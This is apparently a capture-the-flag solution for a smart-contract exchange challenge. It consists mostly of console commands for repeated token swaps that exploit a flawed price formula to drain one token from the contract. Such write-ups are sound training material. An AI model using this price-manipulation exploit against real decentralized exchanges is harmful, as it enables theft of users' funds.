 # Solution
Call multiple times `swap` function:

Firstly, make sure you approve the contract to move your assets

`await contract.approve(contract.address, 10000000)`

```
await contract.swap(await contract.token1(), await contract.token2(), await contract.balanceOf(await contract.token1(), player))

await contract.swap(await contract.token2(), await contract.token1(), await contract.balanceOf(await contract.token2(), player))

await contract.swap(await contract.token1(), await contract.token2(), await contract.balanceOf(await contract.token1(), player))

await contract.swap(await contract.token2(), await contract.token1(), await contract.balanceOf(await contract.token2(), player))

await contract.swap(await contract.token1(), await contract.token2(), await contract.balanceOf(await contract.token1(), player))

```

After that 5 calls, we can see that one more call gives us more tokens than are in the contract. You can check this by calling 

```
await contract.getSwapPrice(await contract.token2(), await contract.token1(), await contract.balanceOf(await contract.token1(), player))
```

Now we have to take a guess what is the amount of token2 that we have to send to swap. Lucky us that we have a view function. After a few tries, we found that 45 is the number:

```
await contract.swap(await contract.token2(), await contract.token1(), 45)
```

Now the balance of `token1` is 0 in the contract